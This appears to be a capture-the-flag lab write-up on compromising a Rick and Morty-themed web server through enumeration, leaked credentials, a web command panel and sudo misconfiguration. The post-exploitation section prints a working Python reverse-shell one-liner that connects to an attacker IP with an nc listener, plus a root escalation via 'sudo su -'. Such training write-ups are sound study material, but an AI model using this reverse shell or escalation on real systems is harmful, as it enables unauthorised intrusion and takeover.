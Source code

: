 # Scanning & Enumeration
## Nmap
![nmap scan](images/nmap.png)

## Website Comments
![comment1](images/comment1.png)

Username for `login.php`

## Dirbuster
![dirbuster scan](images/dirbuster.png)

## Robots.txt
Wubbalubbadubdub (cred?)
Password for `login.php`

## Portal.php
![portal.php](images/portal_command.png)

### Source code comment
```html
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

Decoded Base64:

```html
VmpGU1NtVkdTWGxTYkdScFUwWktjRlZyVmt0VE1WWnhVMjA1VG1KSGVIbFhhMXBoVlZaV1ZVMUVhejA=
```

**Nothing.**

### Command Panel

We can use terminal commands. `ls` shows files. `pwd` shows we are in the root directory of the Apache.

#### Available commands

`cat`, `more`, `tail` don't work. `less` does.

```bash
less portal.php
```

And we can see the blocked commands with page source:

```html
// Cant use cat
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

### Clue.txt
```txt
Look around the file system for the other ingredient.
```

### Sup3rS3cretPickl3Ingred.txt
```txt
mr. meeseek hair
```

## Denied access to other pages
![denied](images/denied.png)

Need other creds.

## Sudo -l (www-data)
![sudo](images/sudo.png)

Since we have `sudo` permission without password, we can `less`

# Exploitation
## Reverse-Shell
![which python](images/python.png)

There's `python3`.

```bash
nc -lvp 8888 # Attacker
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.39.178",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' # Victim Command Panel
```

And we're in.

# Post-Exploitation
Since we are `www-data` and it has `(ALL) NOPASSWD: ALL`, we can run `sudo su -` to be `root`.

# Discoveries
## Technologies
- Ubuntu (2.6?)
- Apache 2.4.18
- OpenSSH 7.2p2

## Creds
- Login.php
	- Username: R1ckRul3s
	- Password: Wubbalubbadubdub


